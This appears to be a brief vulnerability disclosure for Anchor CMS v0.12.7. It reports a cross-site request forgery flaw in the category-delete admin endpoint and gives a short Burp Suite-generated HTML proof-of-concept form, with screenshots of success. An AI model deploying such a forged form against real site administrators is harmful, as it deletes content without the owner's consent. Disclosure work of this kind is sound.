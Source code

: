 target:https://github.com/anchorcms/anchor-cms
version: v0.12.7

anchor cms v0.12.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /anchor/admin/categories/delete/2
![1](https://github.com/PWwwww123/cms/assets/162883217/5de701da-f0a1-43f7-b922-247413c4e05c)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/anchor/admin/categories/delete/2">
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![2](https://github.com/PWwwww123/cms/assets/162883217/eabb21e7-a3c4-4514-ac99-8d1ebe0221c2)


Successed

![3](https://github.com/PWwwww123/cms/assets/162883217/aa6c34a0-24e1-438d-8d20-ec4a58a220d4)
